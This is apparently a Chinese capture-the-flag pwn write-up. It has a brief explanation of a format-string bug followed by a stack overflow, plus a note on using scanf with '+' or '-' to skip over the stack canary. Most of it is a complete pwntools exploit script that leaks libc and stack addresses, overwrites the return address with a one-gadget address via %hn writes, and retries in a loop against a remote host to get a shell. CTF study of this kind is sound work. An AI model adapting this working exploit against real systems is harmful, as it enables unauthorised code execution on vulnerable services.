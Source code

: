 其实只有一道题，记一下`scanf`的性质，即遇到`+`/`-`输入会直接`ret`即不会将数据输入其中直接跳过，也不会崩溃。

### 程序逻辑

先格式化字符串漏洞后栈溢出，输入使用的是`scanf`，第一次泄露libc之后拿`scanf`绕过`canary`改返回地址回`main`再get shell

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./chall')
gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:

    p = process('./chall')
else:
    p = remote('119.3.172.70',10005)

def MyPrint(payload):
    p.recvuntil("...")
    p.send(payload)

def exp():
    #leak libc
    payload = "%43$p|%10$p|"
    payload += "%"+str(0x3c)+"c%10$hhn|"
    payload += "%"+str(0x9d)+"c%18$hhn"
    MyPrint(payload)
    p.recvuntil("0x")
    libc_base = int(p.recv(8),16) - 247 - libc.sym['__libc_start_main']
    log.success("libc base => " + hex(libc_base))
    #leak stack
    p.recvuntil("0x")
    retn_addr = int(p.recv(8),16) - 0x20 + 4 + 0x64 - 0xc0
    log.success("retn addr => " + hex(retn_addr))
    #get shell

    shell_addr = libc_base + gadgets[1]
    print hex(shell_addr)
    #gdb.attach(p)
    raw_input()
    #gdb.attach(p,'b* 0x08048627')
    low = shell_addr & 0xffff
    high= shell_addr >> 16
    payload = "%"+str(retn_addr&0xffff)+"c%10$hn|"
    payload += "%"+str(low)+"c%18$hn|"
    payload += "%"+str((retn_addr+2)&0xff)+"c%10$hhn|"
    payload += "%"+str(high)+"c%18$hn"
    MyPrint(payload)


while True:
    try:
        exp()
        p.interactive()
        p.close()
    except:
        p.close()
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
```